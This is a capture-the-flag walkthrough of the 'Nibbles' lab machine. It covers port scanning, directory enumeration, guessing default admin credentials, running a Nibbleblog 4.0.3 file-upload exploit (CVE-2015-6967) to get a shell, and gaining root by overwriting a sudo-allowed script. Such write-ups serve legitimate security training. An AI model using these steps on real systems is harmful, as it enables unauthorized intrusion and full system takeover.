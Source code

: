1,Recon
port scan 
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Page check
from the source code of index.html
```
<b>Hello world!</b>

<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Then we would find `/nibbleblog/`
![[Pasted image 20241207024249.png]]

Then we would use `gobuster` to enumerate the valid web-content
```
gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.75/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/content/]
/themes               (Status: 301) [Size: 322] [--> http://10.10.10.75/nibbleblog/themes/]
/admin                (Status: 301) [Size: 321] [--> http://10.10.10.75/nibbleblog/admin/]
/plugins              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/plugins/]
/README               (Status: 200) [Size: 4628]
/languages            (Status: 301) [Size: 325] [--> http://10.10.10.75/nibbleblog/languages/]
```

By manually check them, I found the version of `nibbleblog` from `/README`
```
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01

Site: http://www.nibbleblog.com
Blog: http://blog.nibbleblog.com
Help & Support: http://forum.nibbleblog.com
Documentation: http://docs.nibbleblog.com
```

By search this version, I found `Nibbleblog 4.0.3 - Arbitrary File Upload (CVE-2015-6967)`
So let's exploit it.
In this place, we need the credentials of admin in the page `http://10.10.10.75/nibbleblog/admin.php`

I try the default passwords and get the target `admin:nibbles`

Then we just run the exploit script and get the shell 
`python3 exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload shell.php`

By check the `sudo -l`
```
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

```

That means, we can just change the monitor.sh to a shell script and we can run it with root

just change the file `/home/nibbler/personal/stuff/monitor.sh`
`echo "/bin/bash" > monitor.sh` and `chmod +x monitor.sh`

Just `sudo /home/nibbler/personal/stuff/monitor.sh`
Then we get the root shell.

